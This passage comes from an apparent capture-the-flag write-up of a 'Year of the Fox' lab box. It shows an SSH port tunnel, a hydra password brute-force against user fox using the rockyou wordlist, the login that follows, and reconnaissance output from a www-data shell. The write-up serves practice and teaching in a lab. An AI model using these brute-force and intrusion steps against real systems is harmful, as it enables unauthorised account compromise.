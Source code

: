 ![writeup.exploitation.steps.2.1](Box%20Write-ups/thm.yotf/screenshot09.png)  

3\. With this, we now have tunneled `localhost:22` to `10.10.41.240:1337` and can now run a ssh password bruteforce for user `fox` on it. After a few minutes we find a hit and can now login:  
``` {.python .numberLines}
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.41.240:1337
ssh fox@10.10.41.240 -p1337

```

![writeup.exploitation.steps.3.1](Box%20Write-ups/thm.yotf/screenshot10.png)  

![writeup.exploitation.steps.3.2](Box%20Write-ups/thm.yotf/screenshot11.png)  

4\. We find the second flag file `/home/fox/user-flag.txt`:  

![writeup.exploitation.steps.4.1](Box%20Write-ups/thm.yotf/screenshot12.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@year-of-the-fox> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-fox>  
www-data@year-of-the-fox> uname
Linux year-of-the-fox 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
www-data@year-of-the-fox>  
www-data@year-of-the-fox> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
  inet 10.10.41.240  netmask 255.255.0.0  broadcast 10.10.255.255
  inet6 fe80::12:4bff:fe54:f2e0  prefixlen 64  scopeid 0x20<link>
  ether 02:12:4b:54:f2:e0  txqueuelen 1000  (Ethernet)
  RX packets 76192  bytes 8543685 (8.5 MB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 72416  bytes 14679085 (14.6 MB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
  inet 127.0.0.1  netmask 255.0.0.0
  inet6 ::1  prefixlen 128  scopeid 0x10<host>
  loop  txqueuelen 1000  (Local Loopback)
  RX packets 6896  bytes 489426 (489.4 KB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 6896  bytes 489426 (489.4 KB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@year-of-the-fox>  
www-data@year-of-the-fox> users
rascal
fox
root
```
